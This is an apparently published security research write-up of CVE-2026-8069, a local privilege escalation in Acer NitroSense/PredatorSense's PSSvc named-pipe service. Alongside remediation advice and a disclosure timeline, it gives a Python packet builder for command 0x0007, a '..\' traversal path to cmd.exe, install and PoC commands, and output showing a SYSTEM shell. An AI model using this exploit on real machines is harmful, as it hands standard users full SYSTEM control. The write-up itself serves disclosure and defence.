


# From an Acer Named Pipe to NT AUTHORITY\SYSTEM: CVE-2026-8069

Acer NitroSense and PredatorSense 3.x installed a Windows service called `PSSvc` that exposed a custom named-pipe protocol to local users. One protocol command accepted a caller-controlled executable path, duplicated the token of `winlogon.exe`, and started that executable as `NT AUTHORITY\SYSTEM`.

The path restriction in the vulnerable service was a substring test. A path that began inside the service directory and then used `..\` components passed the test but resolved somewhere else. Combined with the pipe's permissive access control and the absence of caller authorization, this allowed a standard local user to obtain a SYSTEM process.

Acer assigned [CVE-2026-8069](https://nvd.nist.gov/vuln/detail/CVE-2026-8069), published fixed releases, and credited Artem Domarev of the University of Hradec Králové in its [security advisory](https://community.acer.com/en/kb/articles/19652).

This article focuses on the process-creation/LPE path. Acer's advisory also describes arbitrary file deletion, which was outside the scope of this validation.

## Why I chose this research direction

The choice of research direction was also influenced by a public analysis of OEM software published by Leon Jacobs of SensePost. That work documented vulnerabilities in ASUS DriverHub, MSI Center, Acer Control Centre, and Razer Synapse 4 ([Jacobs, 2025](https://sensepost.com/blog/2025/pwning-asus-driverhub-msi-center-acer-control-centre-and-razer-synapse-4/)). It reinforced the idea that vendor-supplied hardware utilities can expose a meaningful and underexplored attack surface. Rather than revisiting Acer Control Centre, I extended the investigation to a different Acer product family: NitroSense and PredatorSense.

## Executive summary

| Item | Result |
|---|---|
| CVE | CVE-2026-8069 |
| Vulnerable component tested | `PSSvc.exe` 3.1.3052.0, signed by Acer Incorporated |
| Service identity | `LocalSystem` |
| IPC endpoint | `\\.\pipe\predatorsense_service_namedpipe` |
| Vulnerable command | `0x0007` |
| Required attacker access | Authenticated local user able to run a program |
| User interaction | None |
| Result | Arbitrary executable launched as `NT AUTHORITY\SYSTEM` |
| NVD CVSS v3.1 | 7.8 High — `AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H` |
| Fixed releases | PredatorSense 3.00.3198; NitroSense 3.01.3056 |

The exploitation chain is short:

```text
authenticated local user
        │
        ▼
permissive PSSvc named pipe
        │  custom command 0x0007
        ▼
substring-only path check
        │  service-dir\..\..\..\Windows\System32\cmd.exe
        ▼
duplicate active-session winlogon.exe token
        │
        ▼
CreateProcessAsUserW → NT AUTHORITY\SYSTEM
```

## A version-number warning

There is an inconsistency in the public wording. Acer's page says that NitroSense versions "before 3.01.3052" are affected, yet the vendor-signed `PSSvc.exe` version `3.1.3052.0` tested for this article is demonstrably vulnerable. The same page identifies NitroSense `3.01.3056` as the fixed release. The NVD applicability range also extends up to, but not including, `3.01.3056`.

For PredatorSense, Acer's affected-version sentence stops before `3.00.3196`, while the listed fixed release is `3.00.3198` and NVD uses the latter as the upper boundary.

The conservative operational rule is therefore simple: do not use the ambiguous "affected" sentence as a patch check. Upgrade to at least the fixed versions Acer names—PredatorSense `3.00.3198` or NitroSense `3.01.3056`—or a newer model-compatible package.

## Tested artifacts

The issue was reproduced with the original NitroSense package.

| Artifact | SHA-256 |
|---|---|
| `NitroSense_V3.01.3052_MSFT_SIGNED_20230420.zip` | `947FB7C62665875450AFA9C9E7919D2B061ED8197C11B28D64781F121B30C157` |
| `NitroSense.msi` | `6F9D405B6D2ADF2992C4E071453AD2C919A6DD38A89A31EF96EAFE81C50A745C` |
| Installed `PSSvc.exe` 3.1.3052.0 | `3BA836B6A5D95B55708E771B74F49098F58B096EF1F63C5CCAE355811E193A40` |
| PoC used for validation | `31BC81140BAB64A8B0CB70ACC1C2CF3CA84A7B00015E5610AC075DC50DCB0163` |

The `PSSvc.exe` Authenticode signature validated successfully and chained to Acer Incorporated. The MSI installed `PSSvc` as a demand-start, own-process service running as `LocalSystem`.

## How I found the vulnerable path

### 1. Start with the privileged service

The NitroSense package installs:

```text
SERVICE_NAME: PSSvc
DISPLAY_NAME: Predator Service
TYPE:         WIN32_OWN_PROCESS
START_TYPE:   DEMAND_START
ACCOUNT:      LocalSystem
```

A SYSTEM service is not automatically vulnerable. The important question is whether a lower-privileged process can reach functionality that was designed under the assumption that its caller is trusted.

String analysis immediately exposed the IPC endpoint:

```text
\\.\pipe\predatorsense_service_namedpipe
```

### 2. Inspect the named-pipe security descriptor

At `0x140014AD0`, the service constructs the pipe and passes an explicit security descriptor to `CreateNamedPipeW`:

```text
D:(A;OICI;GA;;;BG)(D;OICI;GA;;;AN)(A;OICI;GRGWGX;;;AU)(A;OICI;GA;;;BA)
```

This is worth correcting explicitly: the vulnerable build does not pass a NULL descriptor. It creates a permissive DACL.

| SID abbreviation | Principal | Effective permission in the SDDL |
|---|---|---|
| `BG` | Built-in Guests | Generic All |
| `AN` | Anonymous | Generic All denied |
| `AU` | Authenticated Users | Generic Read, Write and Execute |
| `BA` | Built-in Administrators | Generic All |

The `AU` ACE is enough for a normal authenticated user to open the pipe for reading and writing. The server does not then impersonate the client and perform an authorization decision before dispatching privileged commands.

### 3. Recover the wire format

The client thread at `0x14000ABB0` reads messages into a 512-byte buffer. It parses the first three bytes as a 16-bit command number and an 8-bit argument count. Each argument is length-prefixed:

```text
Offset  Size  Meaning
0x00    2     command ID, little-endian
0x02    1     number of arguments
0x03    4     length of argument 0
0x07    n     bytes of argument 0
...           repeated DWORD length + value
```

String arguments are UTF-16LE. Integer arguments are little-endian DWORDs. The dispatcher accepts command IDs below `0x23` and uses them as indexes into a 35-entry function table at `0x140052C90`.

The entry for command `0x0007` points to `0x14000BFD0`.

### 4. Follow command 0x0007

Reduced to its security-relevant behavior, the handler looks like this:

```c
int command_07(parsed_arguments *args)
{
    wchar_t service_directory[MAX_PATH];
    wchar_t *requested_path = args->wide_string[0];
    uint32_t mode = args->dword[1];

    GetModuleFileNameW(NULL, service_directory, MAX_PATH);
    PathRemoveFileSpecW(service_directory);

    if (wcsstr(requested_path, service_directory) != NULL)
        return launch_with_selected_token(requested_path, mode);

    return 0;
}
```

`wcsstr` answers only whether one string occurs inside another. It does not canonicalize a path, resolve dot segments, open a file, or prove that the final object remains under a trusted directory.

Assume the service is installed in:

```text
C:\Program Files\Acer\NitroSense_Service
```

The following path contains that directory at offset zero, so `wcsstr` succeeds:

```text
C:\Program Files\Acer\NitroSense_Service\..\..\..\WINDOWS\System32\cmd.exe
```

Windows resolves the dot segments to:

```text
C:\WINDOWS\System32\cmd.exe
```

That is a classic canonicalization error: the validation is performed on one textual representation, while the sensitive operation consumes its normalized meaning.

### 5. Trace the token branch

The process-launch helper at `0x1400091F0` has a special branch when the second argument is `0x72` (decimal 114). It:

1. obtains the active console session ID;
2. queries the active user's token and creates an environment block;
3. enumerates processes with `CreateToolhelp32Snapshot`;
4. locates `winlogon.exe` in the active session;
5. opens the process and its token;
6. duplicates the token as a primary token;
7. sets the duplicated token to high integrity; and
8. starts the caller-supplied path on `winsta0\default`.

The critical call sites in the tested binary were:

| Operation | Address |
|---|---:|
| `CreateToolhelp32Snapshot` | `0x140009298` |
| `OpenProcessToken` | `0x140009346` |
| `DuplicateTokenEx` | `0x1400093B0` |
| `CreateProcessAsUserW` | `0x1400094BF` / `0x1400094C7` |

This means command `0x0007` is not merely asking a service to launch one of its own trusted tools. It exposes a general SYSTEM-token process launcher to a pipe that ordinary users can access.

## Building the PoC

The essential packet builder is small:

```python
import struct

def build_packet(command_id, *arguments):
    packet = struct.pack("<HB", command_id, len(arguments))
    for argument in arguments:
        if isinstance(argument, str):
            argument = argument.encode("utf-16-le")
        elif isinstance(argument, int):
            argument = struct.pack("<I", argument)
        packet += struct.pack("<I", len(argument)) + argument
    return packet

service_dir = r"C:\Program Files\Acer\NitroSense_Service"
target = service_dir + r"\..\..\..\WINDOWS\System32\cmd.exe"

# The handler expects the path, token mode, and eight additional slots.
packet = build_packet(0x0007, target, 0x72, *([b"\x00" * 4] * 8))
```

The complete validation script opens the pipe with `CreateFileW`, sets message mode, sends this packet, and decodes the service's reply. It discovers the installed service path instead of hard-coding it and checks the normalized target before sending anything.

The full script used for this article is available as [`acer_cve_2026_8069_poc.py`](./poc/acer_cve_2026_8069_poc.py).

## Reproduction

### Step 1: Install the vulnerable build

The vendor's `Setup.exe` performs hardware checks and supplies private MSI properties. I extracted `NitroSense.msi` and recovered those properties from the .NET bootstrapper:

```powershell
$arguments = @(
  '/i', 'C:\Lab\NitroSense.msi',
  'BOOTSTRATOR=1', 'ISDT=0', 'RGBKB=0', 'ICPU=0',
  'BRAND=0', 'ACER=1', 'BRANDNAME=Acer',
  'GPRODUCTNAME=NitroSense_Service',
  '/qn', '/norestart',
  '/l*v', 'C:\Lab\install.log'
)

Start-Process msiexec.exe -ArgumentList $arguments -Wait
```

These properties reproduce the bootstrapper's installation path on hardware that does not pass its environment checks.

After installation, I verified the file version, SHA-256 and signature, then started the demand-start service:

```powershell
sc.exe qc PSSvc
sc.exe start PSSvc
```

### Step 2: Use a standard local account

The request was sent from a standard, non-administrative local account running at medium integrity.

### Step 3: Trigger command 0x0007

From that account:

```powershell
py .\acer_cve_2026_8069_poc.py --exec-test --target cmd.exe
```

The service returned:

```text
[PASS] Connected
[INFO] Sending CMD 0x0007: path='cmd.exe', mode=0x72
       Packet size: 227 bytes

Raw response: 010400000001000000
Return code: 1

[CRITICAL] PROCESS CREATED SUCCESSFULLY
```

### Step 4: Verify independently

The PoC's success message is not the proof by itself. I queried the resulting process independently from an administrative evidence channel:

```text
Parent      : PSSvc.exe
Session     : Interactive
Owner       : NT AUTHORITY\SYSTEM
CommandLine : "C:\Program Files\Acer\NitroSense_Service\..\..\..\WINDOWS\System32\cmd.exe"
```

The SYSTEM shell was a direct child of `PSSvc.exe` in the interactive session, with the traversal path preserved on its command line.

I also traced the service APIs during the successful request. The trace recorded active session 1, a successful `WTSQueryUserToken`, a process snapshot, an `OpenProcess` for the session's `winlogon.exe`, successful `DuplicateTokenEx`, integrity-token modification, and a success return from the process-launch helper.





## Root cause

This was not one isolated bad comparison. Exploitation required several trust failures to line up:

1. The pipe DACL allowed authenticated users to read and write.
2. The server accepted a custom privileged command without authenticating or authorizing the client.
3. The executable allowlist was implemented with `wcsstr` rather than canonical path validation.
4. The command exposed code that deliberately duplicated a highly privileged `winlogon.exe` token.
5. The caller controlled the application path ultimately passed to process creation.

Removing any one of the last four links would have prevented this LPE path. Defense in depth should remove all of them.

## Remediation guidance

Acer's supported remediation is to update to PredatorSense `3.00.3198`, NitroSense `3.01.3056`, or later. Use the package Acer offers for the machine's serial number or SNID, as described in the [vendor advisory](https://community.acer.com/en/kb/articles/19652).

For developers of privileged Windows services, the broader lessons are:

- Give the pipe the narrowest practical ACL—normally service-specific principals, SYSTEM and administrators—not all authenticated users.
- Authenticate each client and authorize each command. Pipe access alone is not an authorization decision.
- Impersonate the pipe client when evaluating who is asking, then enforce a documented policy.
- Canonicalize and resolve a path before validation. Compare path components with correct boundary and case rules, and account for reparse points and links.
- Prefer an allowlist of immutable executable identities over a caller-controlled path.
- Do not expose token duplication or arbitrary process creation through a general-purpose local IPC dispatcher.
- Log rejected commands and security-relevant caller information without recording secrets.

## Disclosure timeline

| Date | Event |
|---|---|
| 2026-02-19 | Vulnerability report prepared and submitted to Acer. |
| 2026-05-08 | CVE-2026-8069 published in the CVE/NVD ecosystem. |
| 2026 | Acer published its advisory, credited the researcher, and named fixed PredatorSense and NitroSense releases. |
| 2026-08-28 | Independent reproduction completed for this write-up. |

## Final thoughts

Local named pipes are easy to mistake for trusted boundaries. They are only transport mechanisms. When a SYSTEM service exposes a command dispatcher, its pipe ACL, caller authorization, argument validation and privileged implementation all become part of the security boundary.

Here, a permissive pipe reached a token-duplication routine, and a substring check tried to stand in for path containment. The result was a reliable transition from a standard local user to `NT AUTHORITY\SYSTEM`.

## References

- [Acer: PredatorSense and NitroSense Software v3 Security Vulnerability Information](https://community.acer.com/en/kb/articles/19652)
- [GitHub Advisory Database: CVE-2026-8069 / GHSA-67h9-58cf-72hp](https://github.com/advisories/GHSA-67h9-58cf-72hp)
- [NVD: CVE-2026-8069](https://nvd.nist.gov/vuln/detail/CVE-2026-8069)
- [CVE.org: CVE-2026-8069](https://www.cve.org/CVERecord?id=CVE-2026-8069)
- Jacobs, L. (2025, July 24). [*Pwning ASUS DriverHub, MSI Center, Acer Control Centre and Razer Synapse 4*](https://sensepost.com/blog/2025/pwning-asus-driverhub-msi-center-acer-control-centre-and-razer-synapse-4/). SensePost.

## License

The write-up and original research media are licensed under [Creative Commons Attribution 4.0 International](https://creativecommons.org/licenses/by/4.0/). The PoC source code is licensed under the [MIT License](./poc/LICENSE). See [LICENSE.md](./LICENSE.md) for scope and third-party exclusions.
